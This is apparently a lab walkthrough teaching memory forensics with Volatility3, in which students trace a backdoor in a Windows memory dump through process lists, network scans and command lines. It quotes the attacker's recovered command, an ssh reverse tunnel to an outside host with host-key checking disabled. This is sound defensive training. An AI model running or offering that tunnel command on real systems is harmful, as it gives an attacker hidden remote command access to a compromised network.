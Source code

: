 ## Introduction to Memory Analysis Using Volatility

The information contained in a computer's volatile data (or in the RAM of the computer) can be vital to an incident responder.  We call it volatile for a reason, it will change while the computer is operation, but probably most importantly for an investigation, if we power off the computer, we will lose the data that we may need to answer certain questions.

From a host based perspective, one of the more important questions is what process is communicating with what IP address and can we get more information from that process?

Open a command prompt and change directory into the `/data/course_labs/memory-analysis-volatility` directory.  There will be two files, we will start with the 'physmem2.raw' file, this is a raw memory dump of a system that is suspected of having a backdoor running on it. The vr_nestat_enriched.zip file we will use to compare analysis techniques.

There are two versions of Volatility, version 2 and version 3.  Volatility2 is deprecated and runs on Python2.  Volatility3 is the current version and runs on Python3.

Volatility2 has more analysis plugins that Volatility3, but there could be a time in your analysis career that you want version2 for specific capabilities.  Both are installed on the course VM.  Volatility2 is the `vol.py` command and Volatility3 is the `vol` command.

We will use [Volatility3](https://volatility3.readthedocs.io/en/stable/) for this lab.


&nbsp;

<img src="images/memory_analysis_volatility_0.png"  width="60%" height="30%">

&nbsp;

The first module we should run is the 'windows.info' to make sure Volatility can read the image file and that it seems to properly identify the Operating System as Windows 10.

```
vol -f physmem2.raw windows.info
```

&nbsp;

<img src="images/memory_analysis_volatility_1.png"  width="60%" height="30%">

&nbsp;

Since we are investigating a potential backdoor, we should start with looking at processes and network traffic and see if we can determine if anything looks suspicious.  We will use the 'windows.plist' and 'windows.netscan' modules.  

If you have some volatility experience, you may wish to stop the step-by-step lab instructions here and see if you can identify the backdoor process and determine what technique is being used.

First use the 'windows.plist' module to output the running processes from the system we are investigating.  

```
vol -f physmem2.raw windows.pslist
```


&nbsp;

<img src="images/memory_analysis_volatility_2.png"  width="60%" height="30%">

&nbsp;


Next we will run the 'windows.netscan' to investigate network connections.  The output will contain network status for processes, for example if they are listening on a port for incoming communication, or if they have an established connection and to where.

&nbsp;

<img src="images/memory_analysis_volatility_3.png"  width="60%" height="30%">

&nbsp;

One problem you have likely just noticed is the output to the screen (also known as standard output, or Stdout) is less than ideal to read because the output likely overlaps the length and width of the screen.  One trick I like to use is to redirect the standard output to a text file, especially if the command takes more than a few seconds to run or if there are thousands of lines of output.

Use the up arrow key to re-rerun the last two volatility commands to match the following:

```
vol -f physmem2.raw windows.netscan > windows_netscan.txt
vol -f physmem2.raw windows.pslist > windows_pslist.txt

```

One trick to make text files that have more columns of data than will fit in your terminal window is to use the '-S' switch with the less command.  This will allow you to use the right and left arrows to scroll across the data.  View each of these files and see if you can determine what process seems to be doing something suspicious.



```
less -S windows_netscan.txt
less -S windows_pslist.txt
```

It appears that powerhshell.exe process has launched the ssh.exe process.  In most circumstances in a Windows environment this would make me suspicious unless the user was a systems administrator.

&nbsp;

<img src="images/memory_analysis_volatility_4.png"  width="60%" height="30%">

&nbsp;

In the network output, we see that ssh.exe is connected to an external IP address.  This would add more suspicion to the ssh.exe process.

&nbsp;

<img src="images/memory_analysis_volatility_5.png"  width="60%" height="30%">

&nbsp;

There is another network connection associated with ssh.exe that looks like it is over TCP 4444.  This port is not commonly associated with SSH, and is also suspicious.

&nbsp;

<img src="images/memory_analysis_volatility_6.png"  width="60%" height="30%">

&nbsp;

How can we find more information about what happened with this memory dump?  One trick that I have used in the past is to dump out the process to file using the 'windows.memmap.Memmap' module and then use the strings utility in Linux to find interesting text.  This can be tedious, and in this case, if this is the [built in ssh.exe executable in Windows](https://learn.microsoft.com/en-us/windows-server/administration/openssh/openssh_overview), then there may not be much useful in there that we could not obtain in an easier way.

Since it appears that powershell.exe was the parent process for ssh.exe, we should use the windows.cmdline.CmdLine' module.  This will list command line activity.


```
vol -f physmem2.raw windows.cmdline.CmdLine
```

&nbsp;

<img src="images/memory_analysis_volatility_7.png"  width="60%" height="30%">

&nbsp;

We see that the command executed was `ssh.exe sshtunnel@remote.digitalpirateradio.com -f -N -R 50000 -p 8415 -o StrictHostKeyChecking=no` and looks like it was the built in SSH executable.

This technique was part of an attack that came from a real world incident.  This allows the attacker on the remote system to execute commands into the compromised network.  We can assume that the connection to the 192.168.1.55 system is lateral movement and would expand our investigation to include that system.

For more information on what the switches of the command do check out this blog post https://www.blackhillsinfosec.com/ssh-dont-tell-them-i-am-not-https/

#### Additional analysis options

If you still have time left in the lab take a look at the `vr_netstat_enriched.zip` file in the same directory.  This represents output from a Velociraptor hunt using the Windows Netstat Enriched module.  See if you can find the suspicious process in less time than it would take using the same techniques with TADViewer from the previous lab.

This will likely take less time on a per host basis and illustrates the 'Cast a Wide Net' versus the in-depth analysis approach with Volatility and a single host.